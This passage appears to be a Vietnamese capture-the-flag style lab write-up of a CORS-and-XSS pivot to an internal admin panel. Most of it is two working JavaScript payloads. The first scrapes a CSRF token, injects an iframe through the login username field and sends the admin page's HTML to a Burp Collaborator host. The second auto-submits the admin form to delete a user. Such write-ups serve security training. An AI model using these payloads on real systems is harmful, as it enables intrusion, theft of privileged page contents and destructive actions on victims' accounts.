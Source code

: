 

Như chúng tôi mong đợi tên người dùng được phản ánh trong phản hồi (trong hình).

Điều này có nghĩa là chúng ta có thể chuyển hướng nạn nhân đến trang đăng nhập nội bộ và thực thi các tập lệnh từ đó, có thể bypass qua CORS.

##### Bước thứ ba : Truy xuất Admin Panel

Đoạn code này sẽ cho phép chúng ta truy xuất vào thử panel của admin
```
<script>
function xss(url, text, vector) {
  location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}
function fetchUrl(url, collaboratorURL){
  fetch(url).then(r=>r.text().then(text=>
  {
    xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
  }
  ))
}
fetchUrl("http://192.168.0.212:8080", "http://bbq6iwl2yh0xqnyyqkm0r8w9g0mqaf.burpcollaborator.net");
</script>

```

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_pivot_checkresponse_exploitserver.png?raw=true)

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_pivot_checkresponse_poll.png?raw=true)

##### Bước cuối 

Dựa vào biểu mẫu trả về ở bước 3 chúng ta thấy chức năng delete của admin, vây nên chúng ta viết payload như sau để thực thi biểu mẫu delete và xóa username = carlos
```
<script>
function xss(url, text, vector) {
  location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
  fetch(url).then(r=>r.text().then(text=>
  {
    xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
  }
  ))
}

fetchUrl("http://192.168.0.212:8080");
</script>

```
![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_pivot_payload.png?raw=true)

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_pivot_solve.png?raw=true)
